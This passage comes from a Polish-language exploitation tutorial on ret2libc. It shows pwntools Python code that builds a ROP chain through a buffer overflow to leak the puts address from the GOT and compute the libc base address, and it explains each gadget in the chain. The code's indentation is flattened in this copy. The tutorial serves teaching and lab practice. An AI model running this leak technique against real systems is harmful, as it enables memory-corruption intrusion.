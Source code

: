 W tym kroku nie musisz nic wykonywać, ponieważ wszystko zostanie znalezione przez pwntools podczas wykonania.

## 3- Znalezienie biblioteki libc

Teraz czas, aby znaleźć, która wersja biblioteki **libc** jest używana. Aby to zrobić, zamierzamy **wyciek** **adresu** w pamięci funkcji `puts`, a następnie zamierzamy **wyszukać**, w której **wersji biblioteki** znajduje się wersja puts w tym adresie.
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
Aby to zrobić, najważniejsza linia wykonanego kodu to:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
To wyśle kilka bajtów, aż **nadpisanie** **RIP** będzie możliwe: `OFFSET`.\
Następnie ustawi **adres** gadżetu `POP_RDI`, aby następny adres (`FUNC_GOT`) został zapisany w rejestrze **RDI**. Dzieje się tak, ponieważ chcemy **wywołać puts**, **przekazując** mu **adres** `PUTS_GOT`, ponieważ adres w pamięci funkcji puts jest zapisany w adresie wskazywanym przez `PUTS_GOT`.\
Po tym zostanie wywołane `PUTS_PLT` (z `PUTS_GOT` wewnątrz **RDI**), aby puts **odczytał zawartość** wewnątrz `PUTS_GOT` (**adres funkcji puts w pamięci**) i **wydrukował go**.\
Na koniec **funkcja main jest wywoływana ponownie**, abyśmy mogli ponownie wykorzystać przepełnienie.

W ten sposób **oszukaliśmy funkcję puts**, aby **wydrukowała** **adres** w **pamięci** funkcji **puts** (która znajduje się w bibliotece **libc**). Teraz, gdy mamy ten adres, możemy **sprawdzić, która wersja libc jest używana**.
